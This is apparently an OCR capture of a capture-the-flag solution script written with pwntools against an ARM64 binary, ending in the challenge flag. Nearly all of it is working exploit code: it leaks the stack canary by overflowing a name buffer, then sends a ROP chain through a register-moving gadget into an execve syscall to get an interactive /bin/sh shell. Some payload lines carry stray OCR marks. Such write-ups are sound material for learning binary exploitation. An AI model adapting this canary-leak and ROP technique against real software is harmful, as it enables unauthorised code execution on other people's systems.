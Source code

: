 ``` py
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================
gadget = 0x0000000000425ef0  # 0x0000000000425ef0: mov x0, x19; ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
execve_syscall = 0x000000000044c35c

# ** Leak stack canary **
r.recvuntil(b"name: ")
r.sendline(b"A"*64)
r.recvuntil(b"A"*64)
sc = r.recv(8)
sc = b"\x00" + sc[1:]
log.success(f"Stack canary leaked: {hex(u64(sc))}")

# ** Buffer overflow **
r.recvuntil(b"book: ")
payload = b"A"*32                  # offset
payload += sc                      # stack canary
payload += p64(0)                  # x29
payload += p64(gadget)             # x30

# store "/bin/sh\x00" address in x19
payload += p64(0) * 2                                # junk (stack alignment)     **
payload += p64(0)                                    # x29                        **
payload += p64(0x0000000000425ef0)                   # x30                        **
payload += p64(next(elf.search(b"/bin/sh\x00")))     # x19                        **
payload += p64(0)                                    # x20                       : **

bin_sh = next(elf.search(b"/bin/sh\x00"))


# 0x0000000000425ef0: mov x0, x19; ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
# store "/bin/sh\x00" address in x0
payload += p64(0)                                    # x29        **
payload += p64(0x000000000044c35c)                   # x30        **
payload += p64(next(elf.search(b"/bin/sh\x00")))     # x19        **
payload += p64(0)                                    # x20        **
payload += b"A"* 16                                  # junk       **

r.sendline(payload)

r.interactive()
```

`wwf{w0W_y0u_5uCc35s_aRM_rOp!!}`
